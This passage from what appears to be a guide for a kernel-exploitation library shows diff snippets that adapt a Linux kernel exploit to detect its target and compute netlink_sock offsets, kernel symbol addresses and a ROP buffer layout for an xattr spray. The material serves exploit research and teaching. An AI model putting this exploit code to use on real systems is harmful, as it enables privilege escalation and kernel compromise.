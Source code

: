     > **Note**
    > Mind the fact that `StaticTarget` allows adding symbol and structure information on per-target basis.

* Following **Setp 8** of ["Creating a Database" section of "How to get started" guide](how_to_get_started.md#creating-a-database), detect on which target the TargetDb being run on, to be able to use correct symbol and offset values:

    ```diff
    +    auto target = kpwn_db.AutoDetectTarget();
    +
    +    printf("[+] Running on target: %s %s\n", target.distro.c_str(), target.release_name.c_str());
    +
    +    auto structs = target.structs;
    ```

* Calculate all of the necessary sizes and offsets in `main()`:

    ```diff
    +    xattr_header_size = structs["simple_xattr"].size;
    +    printf("[+] xattr_header_size: %d\n", xattr_header_size);
    +
    +    sk_rcu_off = structs.at("netlink_sock").fields.at("sk.sk_rcu.next").offset;
    +    printf("[+] netlink_sock.sk.sk_rcu_off: %d\n", sk_rcu_off);
    +
    +    sk_destruct_off = structs.at("netlink_sock").fields.at("sk.sk_destruct").offset;
    +    printf("[+] netlink_sock.sk.sk_destruct_off: %d\n", sk_destruct_off);
    +
    +    sk_write_space_off = structs.at("netlink_sock").fields.at("sk.sk_write_space").offset;
    +    printf("[+] netlink_sock.sk.sk_write_space: %d\n", sk_write_space_off);
    +
    +    netlink_bind_off = structs.at("netlink_sock").fields.at("netlink_bind").offset;
    +    printf("[+] netlink_sock.netlink_bind: %d\n", netlink_bind_off);
    +
    +    /* Target event fds */
    +    tfd1 = (READ_BUF_SIZE - 8 + sk_write_space_off)/8;
    +    tfd2 = (READ_BUF_SIZE - 8 + netlink_bind_off)/8;
    +
    +    __sk_destruct = target.GetSymbolOffset("__sk_destruct");
    +    printf("[+] __sk_destruct: 0x%x\n", __sk_destruct);
    +
    +    sock_def_write_space = target.GetSymbolOffset("sock_def_write_space");
    +    printf("[+] sock_def_write_space: 0x%x\n", sock_def_write_space);
    +
    +    num_incs1 = __sk_destruct - sock_def_write_space;
    +
    +    // (gdb) print rtnetlink_bind
    +    // $5 = {int (struct net *, int)} 0xffffffff81d52e80 <rtnetlink_bind>
    +    rtnetlink_bind = target.GetSymbolOffset("rtnetlink_bind");
    +    printf("[+] rtnetlink_bind: 0x%x\n", rtnetlink_bind);
    +    // (gdb) disassemble rtnetlink_bind
    +    // ...
    +    // 0xffffffff81d52e8f <+15>:	jmp    0xffffffff82404c80 <__x86_return_thunk>
    +    rtnetlink_bind_ret = target.GetSymbolOffset("rtnetlink_bind") + 0xf;
    +
    +    num_incs2 = rtnetlink_bind_ret - rtnetlink_bind;
    +
    +    rop_off = READ_BUF_SIZE - sk_rcu_off - xattr_header_size;
    +
    +    char xattr_data[rop_off + sk_destruct_off + 8];
    ```
